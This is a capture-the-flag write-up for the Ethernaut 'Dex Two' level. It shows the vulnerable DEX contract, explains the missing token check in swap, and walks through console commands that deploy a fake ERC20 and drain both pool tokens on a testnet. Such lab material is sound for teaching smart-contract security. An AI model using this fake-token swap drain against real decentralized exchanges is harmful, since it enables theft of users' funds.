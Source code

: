 # 23 - Dex Two

## Challenge

This level will ask you to break `DexTwo`, a subtlely modified `Dex` contract from the previous level, in a different way. You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level. You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.

Things that might help: How has the swap method been modified?

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## Summary

We begin by diffing the `swap` between the two contracts.

![Diff](image.png)

`getSwapAmount` is exactly the same as `getSwapPrice`, it is just a name change. We can see the only difference is that `DexTwo` has removed the check

```js
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

`swap` will not check that the swap is necessarily between `token1` and `token2`. Well, this is a really bad thing, and we can exploit it for profit.

Consider the following scenario: we can create an attack contract that has a lot of tokens `token3`. We can apply similar tricks from `Dex` and drain both `token1` and `token2` by swapping with `token3` (which `swap` does not check against). We can drain both separately to achieve this. Below is an illustration of the workflow. Assume our attack contract initially has 400 `token3`.

```
// initial state
Dex token 1: 100
Dex token 2: 100
Dex token 3: 0
Usr token 1: 10
Usr token 2: 10
Usr token 3: 400

// Usr send 100 token3 to Dex
Dex token 1: 100
Dex token 2: 100
Dex token 3: 100
Usr token 1: 10
Usr token 2: 10
Usr token 3: 300

// Now all ratios in Dex are 1:1. We can drain token 1 by swapping with token 3
Dex token 1: 0   (-100)
Dex token 2: 100 
Dex token 3: 200 (+100)
Usr token 1: 110 (+100)
Usr token 2: 10
Usr token 3: 200 (-100)

// Now we need 200 token3 to get 100 token2. Swap again:
Dex token 1: 0
Dex token 2: 0   (-100)
Dex token 3: 400 (+200)
Usr token 1: 110
Usr token 2: 110 (+100)
Usr token 3: 0   (-200)
```

At this stage we have drained both `token1` and `token2` just because we had a third random token! Manipulating the ratios is truely powerful.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x49b14FE66d7910552c5d8EeF184d317d5a21A361'
```

We are going to deploy an `Attack` contract that mints all 400 `token3` upon contract construction. To do this, official documentation's [Constructing an ERC20 Token Contract](https://docs.openzeppelin.com/contracts/4.x/erc20#constructing-an-erc20-token-contract) has the template and we can shamelessly copy it :)

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract AttackToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("AttackToken", "token3") {
        _mint(msg.sender, initialSupply);
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['AttackToken']
>>> attackContract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> attackContract.deploy(400) # 400 token3
2023-07-03 15:30:53.623 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-07-03 15:31:25.543 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x6F7CD1620d470f1971B752325C640e577c4fBA01
```

Now we need to approve `token3` transaction, and also transfer 100 `token3` to `DexTwo`.

```py
>>> attackContract.functions.approve(contract_addr, 200).send_transaction()
2023-07-03 15:34:37.898 | INFO     | cheb3.contract:send_transaction:236 - (0x6F7CD1620d470f1971B752325C640e577c4fBA01).approve transaction hash: 0x6b1424d2f6fb903f8c0c545df83a6a96ab0ba2b289d29f5e2fe2a48a5786777a
>>> attackContract.functions.transfer(contract_addr, 100).send_transaction()
2023-07-03 15:38:59.242 | INFO     | cheb3.contract:send_transaction:236 - (0x6F7CD1620d470f1971B752325C640e577c4fBA01).transfer transaction hash: 0xb90c2a68ee679073b1a6947a8763e359b27fad020b6c3622e02d3384cf4abff5
```

What happens next are almost identical to `Dex` level exploit.

```js
> t1 = await contract.token1()
'0x087C7412a5409212e7b6FBE534dA06e9B38E215C'
> t2 = await contract.token2()
'0x6CBE549c956B0f2E3e4D8C4eF6b202AC9d869D53'
> t3 = '0x6F7CD1620d470f1971B752325C640e577c4fBA01' // deployed attack contract
'0x6F7CD1620d470f1971B752325C640e577c4fBA01'
> await contract.swap(t3, t1, 100)
{tx: '0x0e470a75fb7ff7a592a788efd1a58eb5b66f5accea319a073e479004d6935733', receipt: {…}, logs: Array(0)}
> await contract.swap(t3, t2, 200)
MetaMask - RPC Error: execution reverted: ERC20: insufficient allowance {code: -32603, message: 'execution reverted: ERC20: insufficient allowance', data: {…}}
```

Wait, what happened? Well, I made a small mistake in the approval amount. Recall I did approve 200 `token3` but here we actually need 100+200... I have to re-approve some amount at this point. Glad it's test token.

```js
> await contract.swap(t3, t2, 200)
{tx: '0x90c94ce50e232d6a9b83e4c227d99636fc4b09763076450e2e6e7997a8b0f1c2', receipt: {…}, logs: Array(0)}
> await contract.balanceOf(t1, instance).then(v => v.toString())
'0'
> await contract.balanceOf(t2, instance).then(v => v.toString())
'0'
```

Neat. Finally, submit the instance to pass the level.

## Afterword

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior. Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.